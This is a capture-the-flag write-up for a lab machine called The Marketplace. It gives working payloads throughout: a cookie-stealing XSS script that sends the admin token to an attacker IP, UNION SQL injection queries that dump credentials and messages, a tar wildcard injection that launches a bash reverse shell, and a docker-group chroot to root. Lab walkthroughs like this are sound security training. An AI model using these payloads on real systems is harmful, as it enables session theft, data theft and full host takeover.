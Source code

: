 <h2>Target: 10.10.140.84    The Marketplace</h2>

<b>Initial Access:</b><br>
nmap -Pn 10.10.140.84 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports: 22,80

Enumerate these open ports further with nmap: <br>
nmap -Pn 10.10.140.84 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.marketplace

![image](https://user-images.githubusercontent.com/93153300/203442370-8f8b63ed-fb35-40aa-a032-1235c03a7967.png)
 
Visiting port 80 shows:

![image](https://user-images.githubusercontent.com/93153300/203442387-c58f3f19-d6f7-4584-80fc-a24eb65e1f75.png)
 
Click on ‘sign up’ and create a user (I will create a user named ‘johnwick’). After signing up, click on ‘login’ and enter the credentials for the user we just created.  After logging in, the page shows:
 
![image](https://user-images.githubusercontent.com/93153300/203442403-8551f39c-f481-42f3-be4f-85e20c4dc62f.png)
 
Clicking on ‘New listing’ (located in the top right) shows:

![image](https://user-images.githubusercontent.com/93153300/203442417-2cb819c5-4218-4466-85e0-40a4565106ac.png)

Enter a ‘title’ and ‘description’ (we will enter ‘test’ for both) and then click on ‘Submit Query’.  After clicking ‘Submit Query’ we are taken to a directory ‘/item/7’ which shows our ‘new listing’ we just created:
 
![image](https://user-images.githubusercontent.com/93153300/203442438-8780b16d-1a93-491b-b7a7-67612aa96e69.png)

At the bottom, clicking on ‘Report listing to admins’ shows: 

*(Machine restarted a few times so the target ip address changed a few times)

![image](https://user-images.githubusercontent.com/93153300/203442461-6a93f6eb-5366-4f33-b3be-52dd18eeaa6b.png)

The message indicates that an admin will review our message.  If the site is vulnerable to xss then we can use this to steal the admin’s token.  To test for xss, we will do the same steps we just did to create a ‘new listing’, but this time we will enter in the ‘description’ a xss payload: <script>alert(1)</script> <br>

Upon repeating the steps to create a ‘new listing’, entering the xss payload in the 'description, and clicking on ‘submit query’ we get an alert:
 
![image](https://user-images.githubusercontent.com/93153300/203442487-d7c189b7-ce94-44a7-974b-db9afdd9e5d0.png)

This shows the site is vulnerable to xss.  Based on this information, we will perform xss to steal the admin’s token.  The steps for this attack are as follows:

Step 1: Like we did before, click on ‘new listing’  and fill out the title with any name you want.  <br>
Step 2:  In the ‘description’ enter the xss payload for stealing the token: <script>var i=new Image;i.src="http://10.2.1.148/?"+document.cookie;</script>  <br>
Step 3: Open a netcat listener to catch the admin token: nc -lvnp 80. <br>
Step 4: Submit the query and wait for the netcat listener to capture the token.

![image](https://user-images.githubusercontent.com/93153300/203442520-9dc169db-0e0b-449a-b361-6c3f293e20a1.png)
 
We captured the admin’s jwt token.  Open the developer tools (press F12) and replace the token value with the admin token we captured: 
 
![image](https://user-images.githubusercontent.com/93153300/203442540-f33827f9-e5a3-4f61-baff-cd8b9c3493ff.png)
 
Refresh the page.  We are now logged in as the admin user.  We can get the first flag in the ‘Administration panel’:

![image](https://user-images.githubusercontent.com/93153300/203442552-5ff3a42d-1863-4a92-9907-abbb9baec2d7.png)
 
Clicking on the box containing ‘ID:2’ takes us to a directory ‘/admin?user=2’:

![image](https://user-images.githubusercontent.com/93153300/203442573-a7068a19-480d-448f-b51f-decdb33817b6.png)
 
Test the ‘?user=’ parameter for sql injection by replacing the ‘2’ with a single quote: 
 
![image](https://user-images.githubusercontent.com/93153300/203442587-792d72c1-770e-40ec-9198-63bc0591869a.png)
 
This response indicates that the site is vulnerable to sql injection.  Capture the request in burpsuite and send the request to repeater.  For all requests in burp suite we will url encode the payload that we send. Here are the steps for manual sql injection for this site: 
  
Step 1: Use ‘union’ to find the # of columns in the query with the following query: 0+union+select+null--+-  <br>
Keep adding another ‘null’ until the response from the server is a valid 200 response.  Upon getting to 4 columns of null we get a valid 200 response.  The valid union query is: <br> 0+union+select+null,null,null,null--+-

Step 2: Find a column that reflects data on the page by replacing the null value with a string value.  If the page returns the string value then we know it reflects that column in the query:

![image](https://user-images.githubusercontent.com/93153300/203442633-6ae2660e-6c46-47de-9830-e8845960bd44.png)
 
This shows that the string ‘johnwick’ in our union query in the first column is returned on the page.  So the first column in the union query reflects data on the page.

Step 3: Find what type of database is being used with the following query: <br> 0+union+select+database(),null,null,null--+- <br>

![image](https://user-images.githubusercontent.com/93153300/203442660-fe45fe81-4b48-4744-8552-b4a65ce0cf5c.png)
 
The server shows a valid 200 response, so the syntax ‘database()’ was correct.  The type of database that uses the syntax ‘database()’ is mysql.  So we now know the database being used is mysql. Secondly, the response shows the database name is 'marketplace'.

Step 4: Find the tables in the ‘marketplace’ database with the following query: <br> 0+union+select+group_concat(table_name),null,null,null+from+information_schema.tables+where+table_schema%3d'marketplace'--+-

![image](https://user-images.githubusercontent.com/93153300/203442685-2f2b9ef2-7e7b-41b8-a965-9628f439e2c3.png)
 
The response shows the tables are: items,messages,users.

Step 5: Find the columns to table ‘users’ with the following query: <br>  0+union+select+group_concat(column_name),null,null,null+from+information_schema.columns+where+table_name%3d'users'--+-

![image](https://user-images.githubusercontent.com/93153300/203442747-99ca6f72-9f9d-401f-b1f8-0d3a7b6241f5.png)
 
The response shows the columns in the ‘users’ table are: id,username,password,isAdministrator

Step 6: Dump the data from the columns ‘username’ and ’password’ with the following query: <br> 0+union+select+group_concat(username,':',password+separator+'\n'),null,null,null+from+users--+-

![image](https://user-images.githubusercontent.com/93153300/203442768-e40f2e4f-5b2f-432e-b844-bc46fa372197.png)
 
The response shows usernames and hashed passwords.  Trying brute force to crack these hashes with john or hashcat takes too long.  Let’s go back and look at a different table we found named ‘messages’.  Dump the columns to the table ‘messages’ with the following query: <br> 0+union+select+group_concat(column_name),null,null,null+from+information_schema.columns+where+table_name%3d'messages'--+-
 
![image](https://user-images.githubusercontent.com/93153300/203442795-7e2e756f-46af-4113-80f3-4ccc0720a3be.png)
 
The response shows a number of columns. Dump the column ‘message_content’ with the following query: 0+union+select+group_concat(message_content),null,null,null+from+messages--+- 
 
![image](https://user-images.githubusercontent.com/93153300/203442827-2e6e6760-ab42-4278-86b7-73cf8249215b.png)
  
The response shows a passowrd: @b_ENXkGYUCAv3zJ <br>
Previously, when we dumped the usernames and passwords columns we found usernames: jake, michael, and system.  Try logging in via ssh with those users using this password ‘@b_ENXkGYUCAv3zJ’.  

ssh jake@10.10.21.162  → when prompted for password then enter the password. <br>
It worked, we have shell as jake.  We can get the 2nd flag in /home/jake/user.txt.
___________________________________________________________________________
<b>Lateral Movement:</b><br>
Running command ‘sudo -l’ shows:

![image](https://user-images.githubusercontent.com/93153300/203442876-dbe2fa54-abb8-480c-abf0-3028b2691e58.png)

We have permission to run this file with sudo permissions as michael.  Read the content of /opt/backups/backup.sh:

![image](https://user-images.githubusercontent.com/93153300/203442886-5918ac8f-2a53-4fe2-9160-79fc6753c0be.png)
 
The file shows a ‘tar’ command with a wildcard.  We will use this to get user michael with the following steps:

Step 1:  Go to directory /opt/backups <br>
Step 2: Create a file named 'test' that contains a reverse shell: echo -n 'bash -c "bash -i >& /dev/tcp/10.2.1.148/443 0>&1"' >test <br>
Step 3: chmod 777 test <br>
Step 4: Run command: echo "" > "--checkpoint-action=exec=sh test" <br>
Step 5: echo "" > --checkpoint=1 <br>
Step 6: open a netcat listener (I will use pwncat because it gives a better shell): pwncat-cs -lp 443 <br>
Step 7: sudo -u michael /opt/backups/backup.sh

Our netcat listener got a shell as user michael.  
___________________________________________________________________________
<b>Privilege Escalation:</b><br>
Command ‘id’ shows that michael is in the docker group.  We will use this to get root. <br>
Run command: docker run -v /:/mnt --rm -it alpine chroot /mnt sh

We have shell as root.  We can get the final flag in /root/root.txt

![image](https://user-images.githubusercontent.com/93153300/203442962-22c98a14-7dbb-4b8e-952d-63bd5f5d0ad1.png)
